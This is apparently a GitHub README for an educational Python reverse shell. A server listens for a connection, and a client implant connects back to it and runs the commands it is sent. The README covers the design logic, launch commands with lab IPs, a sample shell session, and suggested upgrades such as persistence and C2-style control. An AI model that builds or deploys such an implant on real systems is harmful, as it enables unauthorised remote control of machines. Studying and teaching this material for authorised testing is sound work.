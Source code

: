 
# 🐚 **Python Reverse Shell (Server + Client)**

<p align="center">
  <img src="https://img.shields.io/badge/Python-3.x-blue.svg">
  <img src="https://img.shields.io/badge/License-MIT-green.svg">
  <img src="https://img.shields.io/badge/Category-Offensive%20Security-red.svg">
</p>

<p align="center">
  <img src="https://github.com/CrypterENC/Basic-Reverse-Shell-in-Python/blob/main/Basic%20Reverse%20Shell%20Backdoor/rsrc/1.png" alt="Reverse Shell Demo" style="width: 400px; height: 200px; object-fit: cover; object-position: center;">
</p>

This project demonstrates a **basic reverse shell** implementation in Python for controlled lab use.  
It consists of two components:

- **Server (`server.py`)** → The attacker/handler that waits for connections and sends commands.
    
- **Client (`client.py`)** → The implant that connects back to the server and executes received commands.
    

⚠️ **Disclaimer**: This project is for **educational and authorized penetration testing purposes only**. Do not deploy it on systems you do not own or have explicit permission to test.

## ## 🚀 **Features**

- TCP socket communication between server and client.
    
- JSON-based encoding/decoding for safe data transfer.
    
- Command execution on the client side (including `cd` handling).
    
- Error handling for failed connections and invalid commands.
    
- Skips empty input (server does not send blank commands).
    
- Graceful exit with the `exit` command.

## ## 🧩 **Programming Logic**

### 1. Server (`server.py`)

1. **Setup Listener**
    
    - Creates a TCP socket bound to the given IP and port.
        
    - Waits for a client connection.
        
2. **Send & Receive**
    
    - Commands from the operator are serialized with `json.dumps` and sent to the client.
        
    - Responses from the client are received, reassembled, and deserialized with `json.loads`.
        
3. **Command Loop**
    
    - Prompts operator with `Shell#:` .
        
    - If the input is empty → skip sending.
        
    - If `exit` is entered → close session.
        
    - Otherwise → send command, wait for client response, print it.
        

---

### 2. Client (`client.py`)

1. **Connect to Server**
    
    - Creates a TCP socket and connects back to the operator’s IP/port.
        
2. **Receive & Execute**
    
    - Waits for JSON-encoded commands from the server.
        
    - Handles special case:
        
        - If `exit` → close connection.
            
        - If `cd <dir>` → change working directory using `os.chdir()`.
            
    - Otherwise executes commands with `os.popen()` and captures output.
        
3. **Send Response**
    
    - Always sends a JSON response back to the server (command output, error, or directory change confirmation).

## ## 📜 **Usage**

### 1. Start the Server

```python
python3 server.py <IP> <PORT>
```

```python
python3 server.py 192.168.1.23 1234
```

### 2. Start the Client

Edit the `server('IP', PORT)` line in **client.py** with your server’s IP and port:

```python
server('192.168.1.3', 1234)`
```

Then run :

```python
python3 client.py
```

### 3. Interact

- From the server console :

```bash

Shell#: ls
client.py
requirements.txt
server.py

Shell#: pwd
/home/kali/Desktop/Reverse Shell and Backdoor

Shell#: cd ..
Changed directory to: /home/kali/Desktop

Shell#: exit
```

## 🔮 Possible Improvements

- Handle large command outputs with streaming/chunking.
    
- Add command history and better shell prompt on the server side.
    
- Implement encryption (TLS or symmetric encryption) instead of plain-text sockets.
    
- Add persistence or multi-client management (C2-style).
    
- Replace `os.popen()` with `subprocess.Popen` for more robust execution.
